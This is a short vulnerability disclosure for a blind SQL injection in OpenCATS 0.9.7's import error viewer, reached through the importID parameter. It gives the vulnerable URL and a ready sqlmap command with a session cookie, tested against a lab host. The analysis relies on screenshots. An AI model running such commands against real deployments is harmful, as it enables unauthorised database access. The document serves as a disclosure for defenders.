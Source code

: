 # Opencats-0.9.7-sql injection in viewerrors-importID
Date: 2022/12/24

Exploit Author: Sakura501

Vendor Homepage: https://www.opencats.org/

Software Link: https://github.com/opencats/OpenCATS

Version: 0.9.7

Tested on: Windows11/PHP7.3.4/MySQL5.7.26

## URL
`http://192.168.2.153/src/opencats/index.php?m=import&a=viewerrors&importID=1`

## sqlmap-POC
```
sqlmap -u "http://192.168.2.153/src/opencats/index.php?m=import&a=viewerrors&importID=1" --cookie="CATS=3vuotomfflasp6drb4vtimpkqc" --current-db  -p "importID" --flush-session
```

## Result-Show
It exists two sql injections, one is boolean-based blind injection, the other is time-based blind injection.

![image](https://user-images.githubusercontent.com/71068573/209432445-ae54e3c9-83de-424e-9037-dbac2efba773.png)

![image](https://user-images.githubusercontent.com/71068573/209432499-4e6f1fa2-1754-43ca-8dab-698683aa75e8.png)

![image](https://user-images.githubusercontent.com/71068573/209432511-88339329-523c-4fa0-ae34-fee2747c5e36.png)

## Source-Code-Analysis
**Because it does not have strict control over input, then it is executed.**
![image](https://user-images.githubusercontent.com/71068573/209432838-e89cfd21-8cfe-4e71-8cc5-088bdae29063.png)

![image](https://user-images.githubusercontent.com/71068573/209432841-36bc5a14-21f4-4877-a2e6-538d36759861.png)

